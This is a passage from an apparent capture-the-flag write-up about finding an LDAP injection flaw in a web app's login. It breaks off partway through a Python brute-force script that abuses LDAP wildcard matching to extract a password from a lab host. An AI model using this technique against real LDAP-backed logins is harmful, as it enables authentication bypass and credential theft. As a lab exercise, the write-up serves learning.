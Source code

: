 After searching about this exploit, I found a website, and it has a similar behavior as the Webapp.

<a href='https://www.netsparker.com/blog/web-security/ldap-injection-how-to-prevent' target='_blank'>How to prevent LDAP injection</a>

And I thought, may be it is a `LDAP Injection`
And, it was absolutely new to me :)

After reading, it for quite a bit. I thought of writing another `Bruteforce script` for finding `username` and `password`

At first I thought that I have to find both `username` and `password` to solve the challenge, but in fact we actually don't require a username to solve the challenge XD

### Exploit Script :

```python
# Arijit-Bhowmick [sys41x4]

import requests
import time

url = "http://206.189.121.131:30184/login"

user_name, passwd =  "", ""

#data = {"username":user_name, "password":passwd} # For testing purpose

#num_characters = (48 - 57)
#alphabet_chr = (65-90)/(97-122)
#special_characters = (32–47 / 58–64 / 91–96 / 123–126)

char = ''

chr_num_dict= {97:122, 65:90, 48:57, 32:47, 58:64, 91:96, 123:126}

for start in chr_num_dict.keys():
	for j in range(start, chr_num_dict[start]+1):
		char+=chr(j)

char=char.replace("*", '')


def chr_selector(track):

	return char[track]


def cred_finder(cred_to_find):
	
	global user_name
	global passwd



	test_user = ''
	track = 0


	if cred_to_find == "user_name":

		pass_character = ''
		validate_usr = ''
		validate_pass = "*"

		try:
```